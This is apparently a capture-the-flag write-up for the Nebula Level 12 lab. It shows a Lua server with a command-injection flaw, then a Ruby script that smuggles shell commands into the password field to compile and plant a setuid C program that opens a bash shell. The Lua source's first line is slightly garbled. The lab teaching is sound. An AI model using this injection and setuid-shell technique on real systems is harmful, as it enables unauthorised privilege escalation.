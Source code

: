 ```yaml
---
title: "Exploit Exercises - Nebula Level 12"
date: 2014-01-26 20:12:53+08:00
categories: 
- Security
- Exercises
- Nebula
---
```


### About

There is a backdoor process listening on port 50001.

To do this level, log in as the *level12* account with the password *level12*. Files for this level can be found in /home/flag12.

<!-- more -->

### Source code

``` lua /home/flag12/flag12.lua
local socketlocal socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password) 
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
    print("trying " .. line) -- log from where ;\
    local h = hash(line)

    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
      client:send("Better luck next time\n");
    else
      client:send("Congrats, your token is 413**CARRIER LOST**\n")
    end

  end

  client:close()
end
```


### Solution 

`prog = io.popen("echo "..password.." | sha1sum", "r")` this line of code in *hash()* function try to calc the hash of the password, but we can execute any command with a well structed *password*. 

Write a simple Ruby script to send command to server, here I construct a *password* to make the server build a *drop.c* file into directory /home/flag12.

``` ruby
require 'socket'

server = TCPSocket.open("127.0.0.1", 50001)
server.puts("hello && gcc -o /home/flag12/flag12 /tmp/drop.c && chmod 777 /home/flag12/flag12 && chmod +s /home/flag12/flag12 && echo hello ")
ret = server.gets.chomp
puts "#{ret}"
```

Remenber the piece of C code we used to drop privilege? Here it is again:

``` c /tmp/drop.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main() {
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  execv("/bin/bash", NULL);
}
```

Run the Ruby script, I got

``` bash
level12@nebula:~$ ruby client.rb
Password: Better luck next time
```

It is all right, I have no interest in the password anyway. Take a look at the directory /home/flag12

``` bash
flag12@nebula:~$ ll /home/flag12
total 14
drwxr-x--- 1 flag12 level12   60 2014-03-02 22:45 ./
drwxr-xr-x 1 root   root     280 2012-08-27 07:18 ../
-rw-r--r-- 1 flag12 flag12   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag12 flag12  3353 2011-05-18 02:54 .bashrc
-rwsrwsrwx 1 flag12 flag12  7322 2014-03-02 22:45 flag12*
-rw-r--r-- 1 root   root     685 2011-11-20 21:22 flag12.lua
-rw-r--r-- 1 flag12 flag12   675 2011-05-18 02:54 .profile
```

Here is the executable *flag12* with Set-User-ID bit, run it and a bash with *flag12* user privilege will show up!
